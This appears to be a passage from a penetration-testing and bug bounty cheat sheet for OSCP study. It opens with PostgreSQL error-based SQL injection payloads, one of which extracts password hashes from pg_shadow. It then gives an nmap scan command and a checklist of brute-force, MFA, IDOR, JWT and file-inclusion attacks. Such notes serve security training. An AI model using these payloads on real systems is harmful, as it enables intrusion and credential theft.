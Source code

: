 ```bash

# Use cast to find out columns for each table
cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int)

# Use cast to find out row for each column
cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int)

# Get current user's password!
' union select 'd', cast((SELECT concat('DATABASE: ',passwd) FROM pg_shadow limit 1 offset 1) as int), 1, 'd', 'd', null -- //
```

## Bug Bounty
### How to scan ports safely?
**NMAP**
```bash
# -F: top 100 ports
# -T1 or -T2: slow
nmap -A -F -T2 10.10.10.10 -v
```

### Authentication
**Password Brute-force Attacks**
- [Burpsuite Password Bruteforce](#burpsuite-password-bruteforce)
- [Burpsuite Username Password Bruteforce with Lockout](#burpsuite-username-password-bruteforce-with-lockout)
- [Ffuf Password Bruteforce](#ffuf-password-bruteforce)
- [ffuf Username Password Bruteforce with Lockout](#ffuf-username-password-bruteforce-with-lockout)

**Attacking MFA**
- Can we bruteforce MFA?
- See if anyone is using same MFA(use it against others' account login)

### IDOR
- [burpsuite](#burpsuite-idor)
- [ffuf](#ffuf-idor)

### Broken Access Control: JWT token(jwt.io)
- Can we update/access others account with current user's JWT?
JWT token has three parts separated by dot. In the example, the last part(signature) is missing.
![image](https://github.com/nurijeon/OSCP/assets/14031269/68330cc8-4b4d-4e03-94b9-326bd31efaee)
```bash
└─$ echo "eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=" | base64 -d
{"user":"jeremy","role":"staff"}  
```

### LFI/RFI
- [Ffuf File Inclusion](#ffuf-file-inclusion)

